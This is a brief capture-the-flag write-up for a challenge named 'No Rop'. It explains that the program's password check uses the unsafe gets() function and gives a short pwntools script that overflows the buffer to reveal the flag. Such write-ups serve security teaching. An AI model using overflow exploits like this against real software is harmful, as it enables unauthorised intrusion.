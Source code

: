 # No Rop
### 📄 Description
A password is required to access. Do we really need it?

## 🔑 Solution
`gets()` is used to read the string, it's deprecated because it doesn't check string bounds. We can exploit this by filling the buffer with some chars.

```python
from pwn import *

context.binary = "./no_rop"

p = process()
p.sendline(b"A" * 8 + p64(1))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
Flag={hello_world_pwn}
```